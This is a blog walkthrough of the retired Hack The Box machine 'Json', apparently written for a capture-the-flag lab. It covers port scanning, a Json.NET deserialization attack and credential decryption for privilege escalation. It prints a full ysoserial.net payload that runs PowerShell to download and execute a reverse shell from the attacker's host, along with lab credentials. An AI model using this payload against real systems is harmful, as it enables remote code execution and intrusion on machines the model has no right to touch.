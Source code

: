 ```yaml
---
layout: post
title: "Json: Hack The Box Walkthrough"
date: 2020-02-16 04:00:00 +0000
last_modified_at: 2020-02-16 04:00:00 +0000
category: Walkthrough
tags: ["Hack The Box", Json, retired]
comments: true
image:
  feature: json-htb-walkthrough.jpg
  credit: xresch / Pixabay
  creditlink: https://pixabay.com/illustrations/analytics-information-innovation-3088958/
---
```


This post documents the complete walkthrough of Json, a retired vulnerable [VM][1] created by [Cyb3rb0b][2], and hosted at [Hack The Box][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post
{:.no_toc}

* TOC
{:toc}

## Background

Json is a retired vulnerable VM from Hack The Box.

## Information Gathering

Let’s start with a `masscan` probe to establish the open ports in the host.

```
# masscan -e tun0 -p1-65535,U:1-65535 10.10.10.158 --rate=1000

Starting masscan 1.0.5 (http://bit.ly/14GZzcT) at 2019-09-29 06:29:49 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 49153/tcp on 10.10.10.158                                 
Discovered open port 49152/tcp on 10.10.10.158                                 
Discovered open port 49156/tcp on 10.10.10.158                                 
Discovered open port 445/tcp on 10.10.10.158                                   
Discovered open port 49155/tcp on 10.10.10.158                                 
Discovered open port 5985/tcp on 10.10.10.158                                  
Discovered open port 47001/tcp on 10.10.10.158                                 
Discovered open port 21/tcp on 10.10.10.158                                    
Discovered open port 139/tcp on 10.10.10.158                                   
Discovered open port 49157/tcp on 10.10.10.158                                 
Discovered open port 80/tcp on 10.10.10.158                                    
Discovered open port 49158/tcp on 10.10.10.158                                 
Discovered open port 49154/tcp on 10.10.10.158                                 
Discovered open port 137/udp on 10.10.10.158                                   
Discovered open port 3389/tcp on 10.10.10.158                                  
Discovered open port 135/tcp on 10.10.10.158
```

Whoa. Many interesting open ports. Let's do one better with `nmap` scanning the discovered ports to establish their services.

```
# nmap -n -v -Pn -p21,80,135,139,445,3389,5985 -A --reason -oN nmap.txt 10.10.10.158
...
PORT     STATE SERVICE            REASON          VERSION
21/tcp   open  ftp                syn-ack ttl 127 FileZilla ftpd
| ftp-syst:
|_  SYST: UNIX emulated by FileZilla
80/tcp   open  http               syn-ack ttl 127 Microsoft IIS httpd 8.5
| http-methods:
|   Supported Methods: GET HEAD OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: Json HTB
135/tcp  open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn        syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds       syn-ack ttl 127 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp open  ssl/ms-wbt-server? syn-ack ttl 127
|_ssl-date: 2019-09-29T10:37:06+00:00; +4h00m01s from scanner time.
5985/tcp open  http               syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
...
Host script results:
|_clock-skew: mean: 4h00m00s, deviation: 0s, median: 4h00m00s
| nbstat: NetBIOS name: JSON, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:f6:65 (VMware)
| Names:
|   JSON<00>             Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|_  JSON<20>             Flags: <unique><active>
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2019-09-29T10:36:58
|_  start_date: 2019-09-29T03:54:04
```

Interesting list of services. I think the creator is telling us look at the `http` service first. Here's how it looks like.

<a class="image-popup">
![87f2df7e.png](/assets/images/posts/json-htb-walkthrough/87f2df7e.png)
</a>

### JSON Deserialization Attack

During my capture of the HTTP traffic with Burp, I was pleasantly surprised to find out I could log in with the credential (`admin:admin`). It was here that I noticed two XHRs to `/api/token` and `/api/Account`.

<a class="image-popup">
![1f7a5477.png](/assets/images/posts/json-htb-walkthrough/1f7a5477.png)
</a>

The XHR to `/api/Account` had something funky going on. Send the request to Repeater. You'll notice that there's a **Bearer** header accompanying the XHR. The value is `base64`-encoded. What if we empty the value?

<a class="image-popup">
![0dd191c7.png](/assets/images/posts/json-htb-walkthrough/0dd191c7.png)
</a>

That's interesting. Now, what if we put in some strange `base64`-encoded string?

<a class="image-popup">
![b75dc5f3.png](/assets/images/posts/json-htb-walkthrough/b75dc5f3.png)
</a>

```
{"Message":"An error has occurred.","ExceptionMessage":"Cannot deserialize Json.Net Object","ExceptionType":"System.Exception","StackTrace":null}
```

Gotcha! I think I know what's going on here. There's a Json.Net deserializer that converts the **Bearer** `base64`-encoded value to a .NET object at the backend. Armed with this insight, let's see if we can send in a [ysoserial.net](https://github.com/pwntester/ysoserial.net) payload.

According to the GitHub repository of ysoserial.net, this gadget (`ObjectDataProvider`) specifically targets Json.NET. Let's see if we can use PowerShell to execute a [reverse shell](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3) back to us.

```
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':["cmd", "/c powershell /c iex (new-object net.webclient).downloadstring('http://10.10.12.99/rev.ps1')"]
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```

Of course, we need to `base64`-encode the above and shuttle it into the **Bearer** header.

<a class="image-popup">
![179717f8.png](/assets/images/posts/json-htb-walkthrough/179717f8.png)
</a>

And voila!

<a class="image-popup">
![0cafbc53.png](/assets/images/posts/json-htb-walkthrough/0cafbc53.png)
</a>

The file `user.txt` is at `c:\users\userpool\desktop`.

<a class="image-popup">
![7b7a4cb7.png](/assets/images/posts/json-htb-walkthrough/7b7a4cb7.png)
</a>

## Privilege Escalation

During enumeration of `userpool`'s account, I notice a suspicious-looking service FilesToSync at Program Files, along with a pair of encrypted credentials.

<a class="image-popup">
![b39c4b08.png](/assets/images/posts/json-htb-walkthrough/b39c4b08.png)
</a>

The service appears to synchronize files between two locations through FTP. Suffice to say, I grabbed a copy of `SyncLocation.exe` to my machine for further analysis.

### Decompilation of `SyncLocation.exe`

It turns out that `SyncLocation.exe` is a .Net assembly executable, which can be easily decompiled to its source code using [dnSpy](https://github.com/0xd4d/dnSpy). I'm looking for the method to decrypt those credentials.

<a class="image-popup">
![d47d2741.png](/assets/images/posts/json-htb-walkthrough/d47d2741.png)
</a>

Using [.NET Fiddle](https://dotnetfiddle.net/), I was able to decrypt the credentials.

<a class="image-popup">
![02610a99.png](/assets/images/posts/json-htb-walkthrough/02610a99.png)
</a>

The credential is (`superadmin:funnyhtb`). Armed with these, I was able to retrieve `root.txt`.

<a class="image-popup">
![ee93a86c.png](/assets/images/posts/json-htb-walkthrough/ee93a86c.png)
</a>

:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/210
[2]: https://www.hackthebox.eu/home/users/profile/61047
[3]: https://www.hackthebox.eu/
